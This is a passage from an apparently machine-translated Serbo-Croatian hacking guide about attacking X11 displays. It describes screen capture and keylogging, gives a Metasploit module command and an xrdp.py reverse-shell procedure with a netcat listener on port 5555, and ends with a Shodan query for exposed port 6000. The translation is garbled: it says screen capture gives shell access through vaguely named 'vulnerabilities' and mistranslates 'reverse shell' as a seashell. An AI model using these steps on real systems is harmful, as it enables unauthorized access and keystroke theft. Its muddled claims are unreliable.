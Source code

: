 ### 5. X11 Screen Capture

X11 Screen Capture je tehnika koja vam omogućava da snimite sadržaj ekrana ciljnog sistema putem X11 protokola. Ova tehnika se može iskoristiti za dobijanje pristupa Shell-u na ciljnom sistemu.

Da biste koristili X11 Screen Capture, prvo morate pronaći aplikaciju koja koristi X11 protokol za prikazivanje sadržaja ekrana na ciljnom sistemu. Zatim, iskoristite ranjivost aplikacije da biste snimili sadržaj ekrana i dobili pristup Shell-u.

### 6. X11 Keylogger

X11 Keylogger je tehnika koja vam omogućava da snimate tastere koje korisnik pritisne na ciljnom sistemu putem X11 protokola. Ova tehnika se može iskoristiti za dobijanje pristupa Shell-u na ciljnom sistemu.

Da biste koristili X11 Keylogger, prvo morate pronaći aplikaciju koja koristi X11 protokol za prikazivanje tastature na ciljnom sistemu. Zatim, iskoristite ranjivost aplikacije da biste snimali tastere i dobili pristup Shell-u.

```
msf> use exploit/unix/x11/x11_keyboard_exec
```

Drugi način:

**Reverse Shell:** Xrdp takođe omogućava preuzimanje obrnutog školjka pomoću Netcat-a. Unesite sledeću komandu:

```bash
./xrdp.py \<IP:0> –no-disp
```

U interfejsu možete videti opciju **R-shell**.

Zatim, pokrenite **Netcat osluškivač** na vašem lokalnom sistemu na portu 5555.

```bash
nc -lvp 5555
```

Zatim, unesite svoju IP adresu i port u opciju **R-Shell** i kliknite na **R-shell** da biste dobili shell.

## Reference

* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
* [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

## Shodan

* `port:6000 x11`
